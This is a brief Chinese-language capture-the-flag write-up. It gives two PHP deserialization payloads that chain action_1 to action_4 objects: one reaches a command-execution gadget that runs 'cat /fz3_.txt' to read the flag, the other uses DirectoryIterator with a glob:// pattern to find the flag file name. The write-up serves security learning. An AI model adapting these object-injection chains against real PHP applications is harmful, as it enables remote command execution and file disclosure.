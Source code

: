 先直接放payload把，直接用的action_3的rce

```php
<?php
class action_4{
    public function __construct(){
        $this->ctf = 'action_3';
        $this->show = 'cat /fz3_.txt';
    }
}

class action_2{
    public function __construct(){
        $this->p = new action_4();
    }
}

class action_1{
    public function __construct(){
        $this->tmp = new action_2();
    }
}

class action_3{
    public function __construct(){
        $this->str = new action_1();
    }
}

echo serialize(new action_3());
```

这个应该比较简单，不用分析都能看明白

官方wp的预期解长这样->[wp](https://qgieod1s9b.feishu.cn/docs/doccnNEAk0zZJDhi7bypQhF6eFf#Nb2X8y)，首先用到了php的内置类DirectoryIterator配合glob伪协议爆破flag文件名

```php
<?php
class action_4 {
    public function __construct(){
        $this->ctf = "DirectoryIterator";   //GlobIterator
        $this->show ="glob:///f[A-z][0-9]_*";
    }
}

class action_3{
    public function __construct(){
        $this->str = new action_1();
    }
}
class action_1{
    public function __construct(){
        $this->tmp = new action_2();
    }
}
class action_2{
    public function __construct(){
        $this->p = new action_4();
    }
}
echo serialize(new action_3());
```
